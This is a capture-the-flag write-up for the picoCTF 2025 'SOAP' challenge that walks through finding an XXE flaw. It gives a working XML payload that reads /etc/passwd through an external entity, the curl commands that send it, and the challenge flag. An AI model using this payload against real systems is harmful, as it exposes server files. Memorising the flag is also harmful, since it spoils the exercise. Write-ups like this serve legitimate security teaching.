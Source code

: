 # picoCTF 2025 – SOAP Challenge Writeup

**Challenge**: SOAP  
**Description**: The web project was rushed and no security assessment was done. Can you read the `/etc/passwd` file?

---

We inspected the web portal and saw that it uses `application/xml` in POST requests to `/data`. This hinted at a potential XXE (XML External Entity) vulnerability.

We crafted a benign XML to confirm the service accepts XML:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<data>
  <ID>1</ID>
</data>
```

Sent using:

```bash
curl -X POST http://saturn.picoctf.net:55207/data \
  -H "Content-Type: application/xml" \
  --data-binary @safe_payload.xml
```

✅ Output: Displayed valid data.

---

Next, we created an XXE payload:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<data>
  <ID>&xxe;</ID>
</data>
```

Sent it with:

```bash
curl -X POST http://saturn.picoctf.net:55207/data \
  -H "Content-Type: application/xml" \
  --data-binary @xxe_payload.xml
```

🎯 Response included the contents of `/etc/passwd` and the flag:

**picoCTF{XML_3xtern@l_3nt1t1ty_0e13660d}**
